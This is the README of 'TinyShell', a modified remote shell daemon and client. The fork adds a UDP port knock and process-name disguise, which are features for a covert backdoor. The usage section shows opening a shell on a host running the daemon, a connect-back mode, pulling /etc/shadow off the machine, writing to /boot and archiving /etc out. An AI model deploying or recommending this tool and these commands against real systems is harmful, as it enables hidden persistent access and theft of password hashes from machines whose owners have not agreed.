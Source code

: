 #TinyShell

##What's new

* add udp knock, expose tcp port after right knock
* add process name confusion

based on https://github.com/infodox/tsh-sctp

modified by md5_salt

##Ussage
* Compiling Tiny SHell

    Run "make <system>", where <system> can be any one of these:
    linux, freebsd, openbsd, netbsd, cygwin, sunos, irix, hpux, osf

* How to use the server

    It can be useful to set $HOME and the file creation mask
    before starting the server:

        % umask 077; HOME=/var/tmp ./tshd

* How to use the client

    Make sure tshd is running on the remote host. You can:

    - start a shell:

        ./tsh <hostname>

    - execute a command:

        ./tsh <hostname> "uname -a"

    - transfer files:

        ./tsh <hostname> get /etc/shadow .
        ./tsh <hostname> put vmlinuz /boot

    Note: if the server runs in connect-back mode, replace
    the remote machine hostname with "cb".

* About multiple file transfers

    At the moment, Tiny SHell does not support scp-like multiple
    and/or recursive file transfers. You can work around this bug
    by simply making a tar archive and transferring it. Example:

    ./tsh host "stty raw; tar -cf - /etc 2>/dev/null" | tar -xvf -


    On some brain-dead systems (actually, IRIX and HP-UX), Ctrl-C
    and other control keys do not work correctly. Fix it with:

        % stty intr "^C" erase "^H" eof